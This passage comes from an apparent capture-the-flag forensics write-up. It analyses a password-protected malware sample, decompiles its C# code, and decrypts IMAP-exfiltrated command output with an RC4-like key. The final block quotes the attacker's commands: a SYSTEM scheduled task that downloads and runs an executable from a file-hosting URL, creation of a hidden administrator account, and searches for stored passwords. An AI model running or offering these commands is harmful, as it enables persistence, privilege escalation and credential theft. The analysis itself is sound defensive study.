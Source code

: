 **Flag Q3 Answer:** (Insert the MD5 hash value here)

## Step 3: Malware File Analysis

### Triggered Defender
- The malicious file triggered Microsoft Defender due to known signatures.

### Extracting the ZIP
- The ZIP file was password-protected. The email body (from the web mail) contained the password, which allowed us to extract its contents.

### Password Reset Email
- We also discovered a password reset email. The reset message revealed the credentials for the web mail account:

```
proplayer@email.com:<PASSWORD>
```

**Flag Q4 Answer:** The credential line as observed in the email.

## Step 4: Reverse Engineering the Malicious PE File

### Initial File Analysis
- Using Linux tools (file, strings), we confirmed the extracted file was a Windows PE executable.

### Decompilation
- We used ILSpyCmd to decompile the executable. The two key files were:
  - Program.cs
  - Exor.cs

### Code Analysis
The decompiled source code revealed:
- A Base64 encoding function
- Functions to search/replace bytes in the file
- A custom xor function that wraps around an RC4-like encryption implemented in Exor.Encrypt
- IMAP functions used to retrieve emails
- Execution of system commands whose outputs are encrypted (XOR/RC4 + Base64-encoded) before being exfiltrated

*Note: See the decompiled code in Program.cs and Exor.cs for full details.*

## Step 5: Decrypting IMAP Message Bodies

The malicious program encrypts the output of executed commands (e.g., whoami /priv, tasklist /v, etc.) using an RC4-like algorithm with a fixed 256-byte key. We extracted Base64-encoded encrypted messages from the PCAP and then used our PowerShell RC4 decryption script to reveal their plaintext.

### Final Decrypted Commands
```
whoami /priv
tasklist /v
wmic qfe get Caption,Description,HotFixID,InstalledOn
schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add (twice)
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password" (twice)
more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
```
